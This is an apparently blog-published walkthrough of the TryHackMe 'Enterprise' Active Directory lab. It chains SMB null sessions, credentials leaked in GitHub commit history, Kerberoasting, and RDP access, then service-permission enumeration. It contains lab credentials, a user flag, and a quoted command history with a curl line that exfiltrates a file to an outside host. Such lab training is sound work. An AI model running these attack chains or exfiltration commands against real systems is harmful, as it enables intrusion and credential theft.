# NULLSECURE - FROM NULL TO ROOT

🎥 Video Walkthrough: [[VIDEO LINK](https://youtu.be/-N5jcbFljgQ)]

# Enterprise — TryHackMe Full Walkthrough

| | |
|---|---|
| **Room** | [Enterprise](https://tryhackme.com/room/enterprise) |
| **Difficulty** | Hard (Unguided Challenge) |
| **Target IP** | 10.145.136.25 |
| **Hostname** | LAB-DC.LAB.ENTERPRISE.THM |
| **Domain** | ENTERPRISE.THM |
| **OS** | Windows Server (Build 10.0.17763) |
| **Attack Path** | SMB Null Session → OSINT (Bitbucket/GitHub) → Credential Leak → PowerShell History Loot → Kerberoasting → RDP Foothold → Modifiable Service Binary → SYSTEM |

---

## Overview

Enterprise drops us against a single Windows Domain Controller for the fictional company **Enterprise-THM**, mid-migration of its internal tooling to GitHub. There's no initial username or password — everything has to be earned through enumeration. The box chains together SMB null-session access, OSINT across an internet-facing Bitbucket instance and a public GitHub organization, a credential leaked in a Git commit, a PowerShell console history log left behind by a careless admin, Kerberoasting a service account, and finally a classic weak-service-permissions privilege escalation to land SYSTEM.

**Tools used:** RustScan, Nmap, smbclient, NetExec (nxc), Impacket (`GetUserSPNs.py`), Hashcat, xfreerdp, PowerUp.ps1, msfvenom, Metasploit (`multi/handler`)

---

## Recon

Kicked off with a fast port sweep using RustScan piped into Nmap for service/version detection:

```bash
rustscan -a 10.145.136.25 --ulimit 5000 -- -sC -sV
```

The scan returned a textbook Active Directory Domain Controller port spread:

```
53/tcp    domain          Simple DNS Plus
80/tcp    http            Microsoft IIS httpd 10.0
88/tcp    kerberos-sec    Microsoft Windows Kerberos
135/tcp   msrpc
139/tcp   netbios-ssn
389/tcp   ldap            Domain: ENTERPRISE.THM
445/tcp   microsoft-ds
464/tcp   kpasswd5
593/tcp   ncacn_http
636/tcp   tcpwrapped (LDAPS)
3268/3269 ldap / GC
3389/tcp  ms-wbt-server   Microsoft Terminal Services
5985/tcp  http            WinRM
7990/tcp  http            Microsoft IIS httpd 10.0   ← unusual, worth a look
9389/tcp  mc-nmf          AD Web Services
47001/tcp http            WinRM (HTTPAPI)
```

Kerberos (88), LDAP (389/3268) and the domain string `ENTERPRISE.THM` confirm this is a Domain Controller. Port **7990** stood out immediately — that's not a stock DC service, and deserved closer attention later.

The RDP service also leaked domain/hostname info for free via `rdp-ntlm-info`:

```
Target_Name:        LAB-ENTERPRISE
NetBIOS_Domain_Name: LAB-ENTERPRISE
NetBIOS_Computer_Name: LAB-DC
DNS_Domain_Name:     LAB.ENTERPRISE.THM
DNS_Computer_Name:   LAB-DC.LAB.ENTERPRISE.THM
DNS_Tree_Name:       ENTERPRISE.THM
```

Added the resolved names to `/etc/hosts` so LDAP/Kerberos/SMB tooling could resolve the domain properly:

```bash
sudo nano /etc/hosts
# 10.145.136.25   lab-dc.lab.enterprise.thm lab.enterprise.thm enterprise.thm ent
```



With name resolution sorted, tried an SMB null session — always worth a shot on a DC before assuming credentials are required:

```bash
smbclient -L //ent/ -U ''
```

That returned two non-default shares: **Docs** and **Users**.



Pulled everything down from both shares for offline review:

```bash
smbclient //ent/Docs -U ''
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```



```bash
smbclient //ent/Users -U ''
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

The Users share is large, so this download was left running in the background while web enumeration continued in parallel.

---

## Vulnerability Identification

Two files pulled from **Docs** stood out immediately: `RSA-Secured-Credentials.xlsx` and `RSA-Secured-Document-PII.docx`. Both are password-protected — clearly leads, but useless without a password:

```bash
libreoffice RSA-Secured-Credentials.xlsx   # prompts for password
```



```bash
libreoffice RSA-Secured-Document-PII.docx  # prompts for password
```



These were parked as a goal to revisit once credentials surfaced elsewhere.

Checked the web service on port 80 next. IIS with no title and nothing obviously interesting, but out of due diligence checked `robots.txt` anyway — genuinely odd to see one on a Domain Controller's web root, since `robots.txt` exists for search-engine crawlers, not attackers. It turned out to be a dead end, no disallowed paths worth chasing.




The real lead was port **7990**. Browsing to it revealed an Atlassian-branded login page with an internal notice baked into it:

> *Reminder to all Enterprise-THM Employees: We are moving to Github! Log in to your account*



That's a direct pointer outside the AD boundary. Followed it to the organization's public GitHub:

```
https://github.com/Enterprise-THM
```



Worked through the organization's public surface systematically — About Us page, README, then the People tab:




Only **one member** was listed under People, so that account became the next stop:



That member had a public repository containing a `SystemInfo.ps1` script. The current version was clean, but checking the **commit history** for changes to the file ("check update in code") revealed an earlier commit where credentials had been hardcoded and later removed — a classic case of a secret leaked into Git history and never actually invalidated:



That diff handed over valid domain credentials:

```
nik : ToastyBoi!
```



**The vulnerability:** a working domain credential pair was leaked through Git commit history on a public repository tied to the organization's real infrastructure — a supply-chain/OSINT weakness that has nothing to do with a technical bug on the DC itself, and everything to do with process.

---

## Exploitation

While the OSINT chase was going on, the **Users** share download finished. Buried in `LAB-ADMIN\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` was a full PowerShell command history — a goldmine on any Windows box:

```powershell
cd C:\
mkdir monkey
cd monkey
cd ..
cd ..
cd ..
cd D:
mkdir temp
cd temp
echo "replication:101RepAdmin123!!" > private.txt
Invoke-WebRequest -Uri http://1.215.10.99/payment-details.txt
more payment-details.txt
curl -X POST -H 'Content-Type: ascii/text' -d @'private.txt' http://1.215.10.99/dropper.php?file=itsdone.txt
del private.txt
del payment-details.txt
cd ..
del temp
```

This reads like leftover evidence of a prior compromise — a second credential (`replication:101RepAdmin123!!`) written to disk and exfiltrated to an external host, along with a `payment-details.txt` pull, before the operator tried to clean up after themselves. Worth testing regardless of its origin story:

```bash
nxc smb ent -u 'replication' -p '101RepAdmin123!!'
```

No luck — authentication failed.



Fell back to the credentials pulled from GitHub instead:

```bash
nxc smb ent -u 'nik' -p 'ToastyBoi!'
```

That authenticated cleanly.



With a valid domain account, enumerated the user base:

```bash
nxc smb ent -u 'nik' -p 'ToastyBoi!' --users
```



One of the accounts stood out as a likely service account: **bitbucket** — a natural fit given the Atlassian service seen on port 7990. Kerberoasted it directly using nik's authenticated context:

```bash
impacket-GetUserSPNs 'lab.enterprise.thm/nik:ToastyBoi!' -dc-ip lab-dc.lab.enterprise.thm -request-user bitbucket -outputfile spns.txt
```



Cracked the recovered TGS-REP hash offline with Hashcat against rockyou.txt:

```bash
hashcat -m 13100 spns.txt /usr/share/wordlists/rockyou.txt
```

```
bitbucket:littleredbucket
```



Validated the cracked credentials — they worked over both SMB and RDP, with NetExec flagging RDP as **Pwn3d!**, meaning the account has interactive admin-level access:

```bash
nxc smb ent -u 'bitbucket' -p 'littleredbucket'
nxc rdp ent -u 'bitbucket' -p 'littleredbucket'
```



Connected in over RDP for a full interactive foothold:

```bash
xfreerdp /compression /cert:ignore +auto-reconnect /v:ent /u:'bitbucket' /p:'littleredbucket' +clipboard
```


User flag retrieved from the Desktop:



**User Flag:** `THM{ed882d02b34246536ef7da79062bef36}`

---

## Post-Exploitation

With interactive access as `bitbucket`, the next step was to check the account's local privileges. Pulled **PowerUp.ps1** onto the target from a local Python web server:

```bash
python3 -m http.server 8000
```

```powershell
Invoke-WebRequest -Uri http://192.168.129.1:8000/PowerUp.ps1 -OutFile PowerUp.ps1
```



Loaded it and ran a full privilege escalation audit:

```powershell
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```



The audit flagged a modifiable Windows service:

```
ServiceName    : zerotieroneservice
Path           : C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
ModifiableFile : C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
ModifiableFileIdentityReference : BUILTIN\Users
StartName      : LocalSystem
CanRestart     : True
Check          : Modifiable Service Files
```

